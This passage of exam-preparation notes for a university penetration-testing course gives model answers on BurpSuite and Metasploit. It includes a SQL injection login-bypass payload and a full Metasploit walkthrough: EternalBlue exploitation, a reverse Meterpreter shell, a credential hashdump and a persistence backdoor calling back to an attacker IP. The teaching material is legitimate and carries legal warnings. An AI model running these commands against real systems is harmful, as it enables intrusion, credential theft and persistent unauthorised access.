> 3. **Auxiliary Module:** Non-exploit modules used for scanning, fuzzing, sniffing, and reconnaissance. Example: `auxiliary/scanner/smb/smb_version` identifies the OS version of a remote SMB server.

**[Valuation Key: Each module name + correct purpose 1M = 3 Marks]**

---

## PART B — 14-Mark Long Answer Questions (Module Internal Choice)

### Question Choice A: BurpSuite-Centric VAPT `[KTU University Exam - July 2024]`

**Q (a): Explain the architecture of BurpSuite. List and describe any FIVE core tools/tabs available in BurpSuite Community Edition with their primary use cases.**  
**[CO1, CO2 | Understand | 7 Marks]**

**Model Answer:**

> **Architecture:** BurpSuite operates as a **Man-in-the-Middle (MITM) proxy** between the user's browser and the target web server. The browser is configured to route all HTTP/S traffic through Burp's listener (default `127.0.0.1:8080`). Burp intercepts, logs, and allows modification of every request/response pair.
>
> **Five Core Tools:**
>
> 1. **Proxy (4 Marks distributed):** The core interception engine. Captures live HTTP/S traffic. The user can *intercept* a request, modify its headers/parameters, then *forward* it. Sub-tabs include **Intercept**, **HTTP History** (logs all traffic), and **Options** (listener configuration).
>
> 2. **Repeater (1 Mark):** Allows *manual* crafting and resending of individual HTTP requests to test server responses. Critical for manual SQLi, XSS, and authentication bypass testing.
>
> 3. **Intruder (1 Mark):** Automates customized attacks like fuzzing, brute-forcing, and parameter injection. Supports 4 attack types: Sniper, Battering Ram, Pitchfork, Cluster Bomb.
>
> 4. **Sequencer (1 Mark):** Analyzes the *randomness quality* of session tokens and cookies to detect predictable session management flaws.
>
> 5. **Decoder (1 Mark):** Performs encoding/decoding operations (Base64, URL, Hex, HTML entities) — useful for bypassing weak WAF filters that detect plaintext payloads.
>
> 6. **Extender / BApp Store (1 Mark):** Plugin marketplace for community-built extensions (e.g., Logger++, Autorize for IDOR testing).

**[Valuation Key: Architecture explanation 2M, 5 tools with use cases 5 × 1M = 7 Marks]**

---

**Q (b): With a suitable example, demonstrate how BurpSuite Repeater can be used to test for SQL Injection vulnerability in a login form. Show the expected response differences for TRUE and FALSE injection conditions.**  
**[CO3, CO4 | Apply | 7 Marks]**

**Model Answer:**

> **Setup:** Target application at `http://target.com/login.php` with POST parameters `username` and `password`.
>
> **Step 1: Capture Request** [1 Mark]
> Configure browser to route through Burp (`127.0.0.1:8080`). Submit dummy credentials. The POST request appears in Burp Proxy.
>
> **Step 2: Send to Repeater** [1 Mark]
> Right-click the captured request → **Send to Repeater**.
>
> **Step 3: Baseline Test (No Injection)** [1 Mark]
> Send original request:
> ```http
> username=test&password=test
> ```
> Response: `HTTP 302 Found` → Redirects to error page. **Length: 152 bytes**.
>
> **Step 4: TRUE Condition Injection** [2 Marks]
> Modify the `username` parameter:
> ```http
> username=admin' OR '1'='1' -- -&password=anything
> ```
> Response: `HTTP 200 OK` → Dashboard with welcome message. **Length: 1842 bytes**.
>
> **Step 5: FALSE Condition Injection** [2 Marks]
> ```http
> username=admin' OR '1'='2' -- -&password=anything
> ```
> Response: `HTTP 302 Found` → Redirects to error page. **Length: 152 bytes** (same as baseline).
>
> **Analysis:** The significant response *length difference* between TRUE (1842 bytes) and FALSE (152 bytes) conditions **confirms Boolean-Based Blind SQL Injection** vulnerability. The `'` character breaks the SQL string, and `--` comments out the rest of the query.
>
> **Remediation:** Use **parameterized queries (prepared statements)** in the backend code. Example in PHP:
> ```php
> $stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
> $stmt->execute([$username, $password]);
> ```

**[Valuation Key: Step-wise marking as above. Final analysis + remediation 1M = 7 Marks]**

---

### Question Choice B: Metasploit-Centric VAPT `[KTU University Exam - Dec 2024]`

**Q (a): Explain the Metasploit Framework architecture. Differentiate between Exploits, Payloads, and Auxiliary modules with one example each.**  
**[CO1, CO2 | Understand | 7 Marks]**

**Model Answer:**

> **Architecture:** Metasploit is a **modular, Ruby-based exploitation framework** built on the **REX library (Ruby Extensions)**. It follows a layered architecture: (i) **User Interface Layer** (msfconsole CLI, Armitage GUI), (ii) **Core Engine** (handles module loading, session management), (iii) **Module Library** (6 module types), and (iv) **Data Persistence Layer** (PostgreSQL database for storing hosts, services, loot, credentials).
>
> **Differences:**
>
> | Module Type | Purpose | Example | Attack Phase |
> |---|---|---|---|
> | **Exploit** | Code that leverages a specific flaw to gain initial access. Targets a known CVE. | `exploit/windows/smb/ms17_010_eternalblue` | Initial Access |
> | **Payload** | Code executed *after* successful exploitation to maintain access. | `windows/x64/meterpreter/reverse_tcp` | Post-Exploitation |
> | **Auxiliary** | Non-exploit modules for scanning, fuzzing, sniffing. | `auxiliary/scanner/smb/smb_version` | Reconnaissance |
>
> **Key Distinctions:**
> - Exploits are **destructive by design** (crash the service if it fails).
> - Payloads are **post-exploitation tools** (Meterpreter, shells).
> - Auxiliaries are **non-intrusive** — they gather intel without breaking anything.
>
> **Valuation Key:** Architecture (2M), 3-module differentiation (3 × 1.67M ≈ 5M) = 7 Marks.

---

**Q (b): Perform a complete penetration test against a Windows 7 target (IP: 192.168.1.105) vulnerable to MS17-010 (EternalBlue) using Metasploit. Show all commands from scanning to post-exploitation, including privilege escalation and credential harvesting.**  
**[CO3, CO4, CO5 | Apply, Analyze | 7 Marks]**

**Model Answer:**

> **Step 1: Database Initialization** [0.5 Mark]
> ```bash
> sudo msfdb init && msfconsole -q
> msf6 > workspace -a EternalBlue_Lab
> ```
>
> **Step 2: Vulnerability Validation (Auxiliary Scan)** [1 Mark]
> ```bash
> msf6 > use auxiliary/scanner/smb/smb_ms17_010
> msf6 auxiliary(...) > set RHOSTS 192.168.1.105
> msf6 auxiliary(...) > run
> # Output: [+] 192.168.1.105:445 - Host is likely VULNERABLE
> ```
>
> **Step 3: Load Exploit Module** [1 Mark]
> ```bash
> msf6 > use exploit/windows/smb/ms17_010_eternalblue
> msf6 exploit(...) > set RHOSTS 192.168.1.105
> msf6 exploit(...) > set LHOST 192.168.1.50
> msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
> msf6 exploit(...) > set LPORT 4444
> ```
>
> **Step 4: Execute Exploit** [1 Mark]
> ```bash
> msf6 exploit(...) > exploit
> # [+] ETERNALBLUE overwrite completed successfully
> # [*] Meterpreter session 1 opened
> meterpreter >
> ```
>
> **Step 5: Privilege Escalation Check** [1 Mark]
> ```bash
> meterpreter > getuid
> # Server username: NT AUTHORITY\SYSTEM   ← Already SYSTEM-level!
> ```
> *Note: EternalBlue on Windows 7 typically drops directly to SYSTEM context. On modern Windows, `getsystem` would be required.*
>
> **Step 6: Credential Harvesting (Hashdump)** [1.5 Marks]
> ```bash
> meterpreter > hashdump
> # Administrator:500:aad3b435...:31d6cfe0d16ae931b73c59d7e0c089c0:::
> # Guest:501:aad3b435...:31d6cfe0d16ae931b73c59d7e0c089c0:::
> # vagrant:1000:aad3b435...:e52cac67419a9a22a0d4af6e2f4f6e8b:::
> ```
> These NTLM hashes can be cracked offline using **Hashcat** or **John the Ripper** with a wordlist like `rockyou.txt`.
>
> **Step 7: Persistence via Backdoor Service** [1 Mark]
> ```bash
> meterpreter > run persistence -h
> meterpreter > run persistence -U -i 30 -p 4444 -r 192.168.1.50
> # Installs a VBScript backdoor that re-connects every 30 seconds.
> ```
>
> **Final Report Summary:** The target was compromised in **4 critical steps**, achieving SYSTEM-level access within **30 seconds**. The vulnerability has a CVSS score of **8.1 (High)** and a publicly available Metasploit module. The organization must immediately apply the **MS17-010 security patch (KB4012212)**.
>
> **Valuation Key:** Step-wise distribution as above. Final remediation advice 0.5M = 7 Marks.

---

> [!WARNING]
> **KTU Examiner's Valuation Warning — Common Pitfalls:**
> 1. **Do NOT** skip showing `set RHOSTS`, `set LHOST`, and `set PAYLOAD` — these are mandatory configuration steps worth 1-2 marks.
> 2. **Do NOT** confuse the **LHOST** (attacker's local IP) with **RHOSTS** (remote victim). Mixing these = zero marks for the exploit step.
> 3. **Do NOT** forget to mention the **payload type** (Staged vs. Stageless) — KTU specifically tests this in CO2.
> 4. **BurpSuite questions** often require showing the **HTTP request/response format**. Always wrap requests in triple backticks with `http` syntax highlighting.
> 5. **Fail to mention CVSS scoring** = lose 1 mark. Always quantify the vulnerability severity.
> 6. **Writing only "use exploit" without `set options`** = automatic 1-mark deduction.

---

## 📌 Topic Recap & Important Things to Remember

> [!IMPORTANT]
> **Rapid Revision Checklist for KTU PBCST604 – Module 1**

### 🔑 Key Definitions
- **VAPT** = Vulnerability Assessment + Penetration Testing (combined methodology).
- **CIA Triad** = Confidentiality, Integrity, Availability.
- **CVSS** = Common Vulnerability Scoring System (0.0 – 10.0).
- **PTES** = Penetration Testing Execution Standard (industry methodology).
- **MITM Proxy** = Man-in-the-Middle interception mechanism (BurpSuite's core).

### 🛠️ BurpSuite — Must Remember
- **Default Proxy Port:** `127.0.0.1:8080`
- **Core Tabs:** Proxy, Target, Spider, Scanner, Intruder, Repeater, Sequencer, Decoder, Comparer, Extender.
- **Attack Types in Intruder:** Sniper (1), Battering Ram (1 same), Pitchfork (parallel), Cluster Bomb (cartesian).
- **Repeater** = manual request crafting; **Intruder** = automated fuzzing; **Sequencer** = token randomness analysis.
- **HTTPS interception** requires installing the **PortSwigger CA certificate** in the browser trust store.

### 💣 Metasploit — Must Remember
- **Framework Path (Kali):** `/usr/share/metasploit-framework/`
- **Launch Command:** `msfdb init && msfconsole`
- **6 Module Types:** Exploits, Payloads, Auxiliary, Post, Encoders, NOPs (+ Evasion).
- **Payload Subtypes:** Singles, Stagers, Stages.
- **Meterpreter** = stealth, in-memory, DLL-injected post-exploitation payload.
- **EternalBlue (MS17-010)** = canonical KTU example → `exploit/windows/smb/ms17_010_eternalblue`.
- **Default Meterpreter Port:** `4444` (configurable via `LPORT`).
- **Workspace command:** `workspace -a <name>` for engagement isolation.

### 📊 Severity Mapping
- **Low:** 0.1 – 3.9
- **Medium:** 4.0 – 6.9
- **High:** 7.0 – 8.9
- **Critical:** 9.0 – 10.0

### ⚡ Quick Comparison Table (Frequently Asked)

| Parameter | BurpSuite | Metasploit |
|---|---|---|
| **Primary Target** | Web Apps (HTTP/S) | OS / Network Services |
| **OWASP Top 10** | ✅ Full coverage | ⚠️ Partial |
| **Language** | Java | Ruby |
| **Interface** | GUI + CLI | Primarily CLI |
| **Stealth Payload** | N/A (web only) | Meterpreter (RAM-only) |
| **Editions** | Community, Pro, Enterprise | Framework, Pro, Express |

### 🎯 KTU Exam Strategy
- **2-mark questions:** Define + 1 example.
- **3-mark questions:** Definition + Tabular differentiation.
- **7-mark questions:** Architecture + Step-by-step process with commands.
- **14-mark questions:** Combination of (a) theoretical + (b) practical walkthrough with full command outputs.

### 🚨 Legal & Ethical Reminder
> **VAPT must ALWAYS be conducted under a signed Rules of Engagement (RoE) document.** Unauthorized testing is a criminal offense under the **IT Act 2000 (India)**, **CFAA (USA)**, and **Computer Misuse Act (UK)**. KTU expects students to acknowledge the **legal boundaries** in long-answer questions.

---

<!-- SECTION_5_END -->
